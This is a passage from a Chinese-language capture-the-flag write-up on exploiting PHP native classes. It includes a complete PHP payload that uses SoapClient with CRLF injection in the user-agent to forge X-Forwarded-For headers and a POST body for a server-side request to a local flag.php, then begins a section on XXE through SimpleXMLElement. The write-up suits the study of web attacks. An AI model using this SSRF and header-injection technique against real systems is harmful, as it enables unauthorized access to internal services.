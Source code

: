 ```bash
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
```

XFF 头需要 array\_pop 两次，取第二次的值作为 IP，所以我们构造 XFF 的时候需要注意一下，可以测试一下

```bash
array_pop 两次：
X-Forwarded-For:x ————>X-Forwarded-For:空
X-Forwarded-For:x,y ————>X-Forwarded-For:x
X-Forwarded-For:x,y,z ————>X-Forwarded-For:y
```

CRLF 小 tips:

```bash
HTTP 请求头之间的参数用一个\r\n分隔
HTTP Header 与 HTTP Body 是用两个\r\n分隔的
```

payload:

```bash
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$ua="test\r\nX-Forwared-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
//Content-Length 需要修改
$b = new SoapClient(null,array('location' => $target,'user_agent'=>$ua,'uri'=> "http://127.0.0.1/"));
$a = serialize($b);
echo urlencode($a);
?>
```

之后访问 flag.txt 即可

# SimpleXMLElement：XXE

[PHP: SimpleXMLElement - Manual](https://www.php.net/manual/zh/class.simplexmlelement)

能够利用 SimpleXMLElement 类进行 XXE 主要是因为调用 SimpleXMLElement::\_\_construct 可以远程控制 xml 文件

[PHP: SimpleXMLElement::\_\_construct - Manual](https://www.php.net/manual/zh/simplexmlelement.construct.php)
